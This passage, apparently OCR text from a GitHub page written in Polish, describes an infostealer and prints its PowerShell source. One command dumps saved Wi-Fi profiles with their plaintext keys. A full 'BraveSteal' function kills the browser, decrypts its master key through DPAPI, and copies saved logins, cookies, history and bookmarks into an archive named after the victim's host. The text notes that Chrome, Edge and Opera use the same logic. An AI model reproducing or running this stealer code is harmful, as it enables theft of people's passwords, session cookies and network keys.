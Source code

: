 > netsh wlan show profile name=$cz key=clear >> $env:localappdata\wifis.txt

  które powoduje zapisanie informacji o sieci wraz z kluczem w formie plaintext do pliku o nazwie  **wifis.txt**, który następnie jest pakowany do archiwum o nazwie atakowanego hosta.
  W dalszej części działania, malware atakuje kolejno przeglądarki oparte na Chromium oraz Gecko, a są nimi:
  

 - Chrome
 - Brave
 - Edge
 - Opera
 - Firefox

Do każdej przeglądarki napisano funkcje, których działanie wygląda w sposób następujący:

> Poniżej funkcja dla przeglądarki Brave. W Chrome, Operze oraz Edge logika działania jest ta sama, różnią się tylko ścieżki zapisu pożądanych plików.

    function BraveSteal{

    new-item -Path "$env:localappdata" -Name "brave_data" -itemtype directory

    Get-Process "brave" | Stop-Process
    
    $brave_logins = "Default\Login Data"

    $brave_cookies = "Default\Network\Cookies"

    $brave_key = "Local State"

    $brave_history = "Default\History"

    $brave_bookmarks = "Default\Bookmarks"

    $path = $path+"\BraveSoftware\Brave-Browser\User Data\"

    $cipheredkey = "$path$brave_key"

    $jsondata = Get-Content -Raw -Path $cipheredkey | ConvertFrom-Json

    $encKey = [System.Convert]::FromBase64String($jsondata.os_crypt.encrypted_key.ToString());
   
    $encKey= $encKey[5..$encKey.Length];
 
    $decryptedKey = [Security.Cryptography.ProtectedData]::Unprotect($enckey,$null, [Security.Cryptography.DataProtectionScope]::CurrentUser)

    echo "decryptedKey in hex coding (you have to decode it to binary representation in .py decoder):   [$(($decryptedKey|ForEach-Object ToString X2) -join '')]" | Out-File -FilePath "$env:localappdata\brave_data\key.txt"

    copy "$path$brave_cookies" "$env:localappdata\brave_data"

    copy "$path$brave_logins" "$env:localappdata\brave_data"

    copy "$path$brave_key" "$env:localappdata\brave_data"

    copy "$path$brave_history" "$env:localappdata\brave_data"

    copy "$path$brave_bookmarks" "$env:localappdata\brave_data"

    Compress-Archive -Path "$env:localappdata\brave_data" -DestinationPath "$env:localappdata\$compname.zip" -Update
